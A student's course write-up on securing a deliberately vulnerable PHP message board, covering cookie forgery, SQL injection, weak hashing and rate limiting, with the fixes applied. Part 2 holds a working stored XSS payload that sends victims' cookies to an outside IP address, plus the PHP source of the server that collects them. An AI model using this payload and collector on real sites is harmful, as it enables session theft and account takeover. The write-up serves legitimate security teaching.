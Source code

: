# Project Writeup

Bradley Rosenfeld - COS342, 11/14/15

## Part 1.

Overall this application was extremely vulnerable to all sorts of different attacks. Malicious users could run arbitrary SQL queries as well as insert XSS attacks into posts. I outlined below my response to the specific security policies laid out in the assignment.

1. The application tries to prevent access to messages by checking for the existence of a cookie that is created when the user is authenticated and logged in. Messages can be deleted by visiting a GET URL, the link to which is only visible when the user who is viewing the message has a cookie that matches the user who created the message. 

 Unfortunately, these security policies are not adequate to prevent unauthorized access. Malicious users can easily create a cookie called "hackme" which contains the username which they wish to target. Once this cookie has been created, they can view messages and perform actions that only the real user should be able to do. The original system could be hacked without ever requiring the malicious actor to crack the user's password.

 The message deletion action doesn't check to see if the user is authorized, anyone can enter an arbitrary message ID which they wish to delete. Even worse, the deletion action is vulnerable to SQL injection which would allow any user to delete any post or perform other operations on the database.

 In order to fix this I implemented PHP sessions. Rather than sending the actual username and password as a cookie, a unique session ID is set which an attacker wouldn't be able to guess (they could snoop for it, but that is addressed later). The application then checks for the existence of the session ID and makes sure it is valid. Similarly, the deletion action will check to make sure the user is actually authorized and that the ID provided is valid. To prevent SQL injection, I escape all values that are inserted into SQL queries.

2. The database only contains password hashes, so the raw passwords can't be accessed immediately. But the passwords are hashed with a weak algorithm (SHA1) and they are not salted resulting in duplication of hashes. This results in an illusion of security, when in reality the hashes could be cracked within minutes.

 I fixed this by moving to a newer PHP function `password_hash()` which uses a much strong hashing function (bcrypt), handles salting, and enforces a "cost" which slows down direct brute force attacks on the server.

3. Attackers can easily snoop for user credentials for multiple reasons. Since the site is not HTTPS, usernames and passwords are sent via plaintext over the network. Furthermore, the username and hashed password are stored in cookies which are sent with every network request. It would be trivial to snoop for credentials.

 To fully fix this, I would need to enable HTTPS. But I did stop saving the username and password in a cookie. Instead I use a unique PHP session ID for further authentication.

4. Login attempts are not rate limited, making brute force attacks trivial.
 
 I fixed this by slowing down the number of attempts allowed per minute on a user. Once the user has exceeded 5 attempts, they have to wait a minute before trying again. If the attacker ever has direct access to the database, the password hash is resistant to brute force attacks through the use of a salt and an enforced computation time. 

5. No password scheme was implemented, users could submit anything as a password.
 
 I implemented a password policy that says passwords must be at least 8 characters long, aren't dictionary words, and don't have too many letters, numbers, or special characters (must be a combination). This policy is enforced by my PHP Password class in the check() method.


I also solved a lot of the possible SQL injection attacks on the website by using `mysqli_real_escape_string()`. This function automatically escapes quotes and other special characters preventing attackers from running their own commands.

## Part 2

The attacker could post an image that fails to load, forcing JS to run. In this case, I wrote a simple script that sends the user's cookie to the remote server.

```
<img src="fdfjkdfjfkjdfdf.dfdjf" onerror="this.src=\'http://10.121.20.103/hackme-xss.php?c=\' + document.cookie">
```

You can view the result of this attack by visiting [10.121.20.103/hackme-xss.php](http://10.121.20.103/hackme-xss.php)

In order to fix this, I disabled all usage of HTML in messages by using the `htmlspecialchars()` function in PHP when rendering the user submitted content.

The source code of the attacker server is as follows:

```
<?php
$secretFile = "/tmp/foo.txt";
if (isset($_GET['c'])) {
        $fh = fopen($secretFile, 'a') or die("can’t open file");
        $stringData = $_GET['c']."\n";
        fwrite($fh, $stringData);
        fclose($fh);

        //Send an img
        header('Content-Type: image/jpeg');
        readfile("kitten.jpg");
} else {
        header("Content-Type: text/plain");
        readfile($secretFile);
}
?>
```

